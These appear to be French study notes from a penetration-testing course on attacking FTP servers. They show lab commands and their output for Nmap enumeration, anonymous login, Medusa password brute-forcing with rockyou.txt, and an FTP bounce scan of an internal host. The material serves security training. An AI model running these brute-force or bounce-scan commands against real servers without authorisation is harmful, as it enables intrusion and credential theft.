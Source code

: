 # Attaquer FTP 
Le protocole de transfert de fichiers (FTP) est un protocole réseau standard utilisé pour transférer des fichiers entre ordinateurs. Il effectue également des opérations sur les répertoires et les fichiers, telles que la modification du répertoire de travail, la liste des fichiers, et le renommage et la suppression de répertoires ou de fichiers. Par défaut, FTP écoute sur le port TCP/21.

Pour attaquer un serveur FTP, nous pouvons abuser d'une mauvaise configuration ou de privilèges excessifs, exploiter des vulnérabilités connues ou découvrir de nouvelles vulnérabilités. Par conséquent, après avoir obtenu l'accès au service FTP, nous devons être conscients du contenu du répertoire afin de pouvoir rechercher des informations sensibles ou critiques, comme nous l'avons vu précédemment. Le protocole est conçu pour déclencher des téléchargements et des téléchargements avec des commandes. Ainsi, les fichiers peuvent être transférés entre les serveurs et les clients. Un système de gestion de fichiers est à la disposition de l'utilisateur, connu par le système d'exploitation. Les fichiers peuvent être stockés dans des dossiers, qui peuvent se trouver dans d'autres dossiers. Il en résulte une structure de répertoire hiérarchique. La plupart des entreprises utilisent ce service pour les processus de développement de logiciels ou de sites Web.

## Énumération
Scripts Nmap par défaut -sC inclut le script ftp-anon Nmap qui vérifie si un serveur FTP autorise les connexions anonymes. L'indicateur d'énumération de version -sV fournit des informations intéressantes sur les services FTP, comme la bannière FTP, qui inclut souvent le nom de la version. Nous pouvons utiliser le client ftp ou nc pour interagir avec le service FTP. Par défaut, FTP s'exécute sur le port TCP 21.

### Nmap
```
dsgsec@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
```

## Mauvaises configurations
Comme nous en avons discuté, l'authentification anonyme peut être configurée pour différents services tels que FTP. Pour accéder avec une connexion anonyme, nous pouvons utiliser le nom d'utilisateur anonyme et aucun mot de passe. Cela sera dangereux pour l'entreprise si les autorisations de lecture et d'écriture n'ont pas été configurées correctement pour le service FTP. Parce qu'avec la connexion anonyme, l'entreprise aurait pu stocker des informations sensibles dans un dossier auquel l'utilisateur anonyme du service FTP pourrait avoir accès.

Cela nous permettrait de télécharger ces informations sensibles ou même de télécharger des scripts dangereux. En utilisant d'autres vulnérabilités, telles que la traversée de chemin dans une application Web, nous serions en mesure de savoir où se trouve ce fichier et de l'exécuter en tant que code PHP, par exemple.

### Authentification anonyme
```
dsgsec@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

Une fois que nous avons accès à un serveur FTP avec des informations d'identification anonymes, nous pouvons commencer à rechercher des informations intéressantes. Nous pouvons utiliser les commandes ls et cd pour nous déplacer dans les répertoires comme sous Linux. Pour télécharger un seul fichier, nous utilisons get, et pour télécharger plusieurs fichiers, nous pouvons utiliser mget. Pour les opérations de téléchargement, nous pouvons utiliser put pour un fichier simple ou mput pour plusieurs fichiers. Nous pouvons utiliser l'aide de la session client FTP pour plus d'informations.

Dans le module Footprinting, nous couvrons des informations détaillées sur les éventuelles erreurs de configuration de ces services. Par exemple, de nombreux paramètres différents peuvent être appliqués à un serveur FTP, et certains d'entre eux conduisent à différentes options qui pourraient provoquer d'éventuelles attaques contre ce service. Cependant, ce module se concentrera sur des attaques spécifiques plutôt que sur la recherche de mauvaises configurations individuelles.

## Attaques spécifiques au protocole
De nombreuses attaques et méthodes différentes sont basées sur des protocoles. Cependant, il est essentiel de noter que nous n'attaquons pas les protocoles individuels eux-mêmes mais les services qui les utilisent. Puisqu'il existe des dizaines de services pour un même protocole et qu'ils traitent différemment les informations correspondantes, nous allons en examiner quelques-uns.

### Brute forcing
S'il n'y a pas d'authentification anonyme disponible, nous pouvons également forcer la connexion pour les services FTP en utilisant une liste de noms d'utilisateur et de mots de passe pré-générés. Il existe de nombreux outils différents pour effectuer une attaque par force brute. Explorons l'un d'entre eux, Medusa. Avec Medusa, nous pouvons utiliser l'option -u pour spécifier un seul utilisateur à cibler, ou vous pouvez utiliser l'option -U pour fournir un fichier avec une liste de noms d'utilisateur. L'option -P est pour un fichier contenant une liste de mots de passe. Nous pouvons utiliser l'option -M et le protocole que nous ciblons (FTP) et l'option -h pour le nom d'hôte ou l'adresse IP cible.

### Bruteforce avec Medusa
```
dsgsec@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

### Attaque de rebond FTP
Une attaque par rebond FTP est une attaque réseau qui utilise des serveurs FTP pour acheminer le trafic sortant vers un autre appareil du réseau. L'attaquant utilise une commande PORT pour inciter la connexion FTP à exécuter des commandes et à obtenir des informations d'un périphérique autre que le serveur prévu.

Considérons que nous ciblons un serveur FTP FTP_DMZ exposé à Internet. Un autre appareil du même réseau, Internal_DMZ, n'est pas exposé à Internet. Nous pouvons utiliser la connexion au serveur FTP_DMZ pour analyser Internal_DMZ à l'aide de l'attaque FTP Bounce et obtenir des informations sur les ports ouverts du serveur. Ensuite, nous pouvons utiliser ces informations dans le cadre de notre attaque contre l'infrastructure.

![ftp_bounce_attack.png](../../ressource/ftp_bounce_attack.png)

```
dsgsec@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```
